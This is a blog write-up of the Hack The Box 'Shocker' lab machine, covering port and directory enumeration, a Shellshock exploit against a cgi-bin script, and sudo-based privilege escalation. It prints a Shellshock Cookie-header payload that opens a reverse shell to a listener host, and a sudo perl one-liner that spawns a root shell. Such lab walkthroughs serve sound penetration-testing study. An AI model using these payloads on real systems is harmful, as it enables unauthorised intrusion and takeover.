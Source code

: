 Title: HTB Shocker box writeup
Tags: oscp, htb, shellshock, sudo
Summary: Rooting the box using notorious vulnerability in bash
Date: 2020-09-11 15:00
Status: published

# Enumeration
nmap sS all range as always:
```text
    Nmap 7.80 scan initiated Fri Sep 11 11:25:24 2020 as: nmap -sS -p- -oA enum/nmap-ss-all shocker.htb
    Nmap scan report for shocker.htb (10.10.10.56)
    Host is up (0.051s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1
    Nmap done at Fri Sep 11 11:31:30 2020 -- 1 IP address (1 host up) scanned in 366.24 seconds
```
Tried to navigate in browser while nmap was scanning, turned out that there's a 
web server that responds with the same page at IP and at vhost `shocker.htb`.
OpenSSH listening on usual port TCP 2222:

![ssh 22222](/cstatic/htb-shocker/ssh-unusual.png)

No robots.txt or something like this is available, time to spin up the gobuster:
```text
    /.htpasswd (Status: 403)
    /.htaccess (Status: 403)
    /cgi-bin/ (Status: 403)
    /server-status (Status: 403)
```
CGI-BIN looks promising, unfortunately it's not possible to list the content of
this directory, but it's still worth trying to enumerate it further. Just add some common
extensions to the wordlist, something like sh, py, pl, php:
```text
    /.htpasswd (Status: 403)
    /.htpasswd.php (Status: 403)
    /.htaccess (Status: 403)
    /.htpasswd.sh (Status: 403)
    /.htpasswd.pl (Status: 403)
    /.htpasswd.py (Status: 403)
    /.htaccess.sh (Status: 403)
    /.htaccess.pl (Status: 403)
    /.htaccess.py (Status: 403)
    /.htaccess.php (Status: 403)
    /user.sh (Status: 200)
```
Got it! Something interesting in there. Popped out nearly at the end of the run,
I was almost thinking that nothing could be found in there. This script reporting
an uptime, at least it's being said so:

![uptime script](/cstatic/htb-shocker/get-user.sh.png)

Take a mental note about hostname (Shocker) and shell script in CGI-BIN.

# Exploitation
Couple of years ago [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) or
as it's also called, Bashdoor, was discovered. Briefly, that's a code execution vulnerability
in the Bash, one of the attack vectors are CGI shell scripts - looks like our case. It was
a bit of struggling exploiting this one, since many attempts resulted in HTTP 500, but
I might be lucky since I've got a shell despite of having HTTP 500 response, such a 
cookie header was used: `Cookie: () { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.2/53 0>&1 &'`:

![unpriv shell](/cstatic/htb-shocker/unpriv-shell.png)

# Privilege escalation
`sudo -l` reported that it's possible to run perl w/o password:

![sudo -l](/cstatic/htb-shocker/sudo.png)

This is an instant root shell with `sudo perl -e 'exec("/bin/bash -i")'`:

![root shell](/cstatic/htb-shocker/root-shell.png)

Honestly it was the first thing I did having the unprivileged access, so PE was as simple as running `sudo -l`.
